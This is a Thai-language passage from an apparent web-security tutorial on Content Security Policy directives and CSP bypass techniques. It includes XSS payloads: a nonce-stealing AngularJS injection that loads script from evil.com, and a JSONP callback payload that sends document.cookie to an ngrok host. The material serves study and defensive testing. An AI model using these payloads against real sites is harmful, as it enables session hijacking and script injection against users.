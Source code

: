 ### **Protocol-based**
- `https:`: อนุญาตเฉพาะ HTTPS
- `blob:`: อนุญาต Blob URLs
- `filesystem:`: อนุญาต filesystem URLs

### **Unsafe Sources (ไม่แนะนำ)**
- `'unsafe-inline'`: อนุญาต inline code
- `'unsafe-eval'`: อนุญาต eval() function
- `'unsafe-hashes'`: อนุญาต inline event handlers เฉพาะ

### **Secure Alternatives**
- `'nonce-<value>'`: อนุญาต inline script ที่มี nonce ตรงกัน
- `'sha256-<hash>'`: อนุญาต script ที่มี hash ตรงกัน
- `'strict-dynamic'`: อนุญาตให้ script ที่ผ่าน nonce/hash โหลด script อื่นได้

## เทคนิคการ Bypass ที่น่าสนใจ

### **Nonce Reuse Attack**
```html
<!-- ถ้าสามารถเรียกใช้ JavaScript ได้บ้าง สามารถขโมย nonce ได้ -->
<img src=x ng-on-error='
doc=$event.target.ownerDocument;
a=doc.defaultView.top.document.querySelector("[nonce]"); 
b=doc.createElement("script");
b.src="//evil.com/malicious.js";
b.nonce=a.nonce; 
doc.body.appendChild(b)'>
```



## JSONP Abuse (การใช้ JSONP ในทางที่ผิด)

การใช้ JSONP ในทางที่ผิดเป็นวิธีคลาสสิกในการ bypass CSP ในการโจมตี XSS บล็อก INFOSEC ได้อธิบายเทคนิคนี้ในลักษณะที่เข้าใจง่ายมาก แต่เงื่อนไขคือ JSONP endpoints บางตัวต้องอยู่ใน allowlist ซึ่งมีรายการยาวมาก เมื่อเป็นเช่นนั้น เนื้อหา CSP จะมีลักษณะแบบนี้:

```http
Content-Security-Policy: script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';
```

นี่หมายความว่า script-src ถูกตั้งค่าให้เป็น self และโดเมนเฉพาะบางตัว (whitelist) ซึ่งมี JSONP endpoints ที่อนุญาตให้ใช้ callback methods ที่ไม่ปลอดภัย จากนั้นเราจะใช้ Javascript ที่ 'อันตราย' ซึ่งเป็นของโดเมนที่อยู่ใน whitelist เพื่อทำการโจมตี XSS

payload การโจมตีในกรณีนี้อาจมีลักษณะแบบนี้:

```html
<script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#"></script>

<script src="/api/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>

```
